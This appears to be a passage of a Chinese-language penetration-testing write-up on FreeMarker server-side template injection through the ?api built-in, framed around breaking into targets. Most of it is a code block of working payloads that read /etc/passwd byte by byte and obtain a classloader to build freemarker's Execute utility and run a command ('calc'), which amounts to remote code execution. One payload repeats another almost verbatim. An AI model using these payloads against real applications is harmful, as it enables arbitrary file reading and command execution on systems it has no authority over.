 ## 0x03 内建函数

> 我们突破的时候经常会使用的内建函数： http://freemarker.foofun.cn/ref_builtins.html 
>
> 除了内建函数之后，应该就是内建对象了。

### `api`

`value?api.someJavaMethod()`。使用大概像这样，可以调用一些java的api，使用起来非常刺激，就会又归结到最后java层面的webshell了，很有趣!

但是这个函数启用需要很多条件。**必须在配置项`api_builtin_enabled`为`true`时才有效，而该配置在`2.3.22`版本之后默认为`false`**。

```java
  <#assign classLoader=object?api.class.protectionDomain.classLoader>
  eg1：
  <#assign classLoader=object?api.class.getClassLoader()>
  ${classLoader.loadClass("our.desired.class")}

  eg2： 任意文件读
  <#assign uri=object?api.class.getResource("/").toURI()>
  <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
  <#assign is=input?api.getInputStream()>
  FILE:[<#list 0..999999999 as _>
      <#assign byte=is.read()>
      <#if byte == -1>
          <#break>
      </#if>
  ${byte}, </#list>]
eg3: 
   <#assign is=object?api.class.getResourceAsStream("/etc/passwd")>
    FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
    ${byte}, </#list>]
eg4:
<#assign uri=object?api.class.getResource("/").toURI()>
    <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
    <#assign is=input?api.getInputStream()>
    FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
    ${byte}, </#list>]
eg5:获取classLoader
<#assign classLoader=object?api.class.protectionDomain.classLoader>
    <#assign clazz=classLoader.loadClass("ClassExposingGSON")>
    <#assign field=clazz?api.getField("GSON")>
    <#assign gson=field?api.get(null)>
    <#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))>
    ${ex("calc")}
```
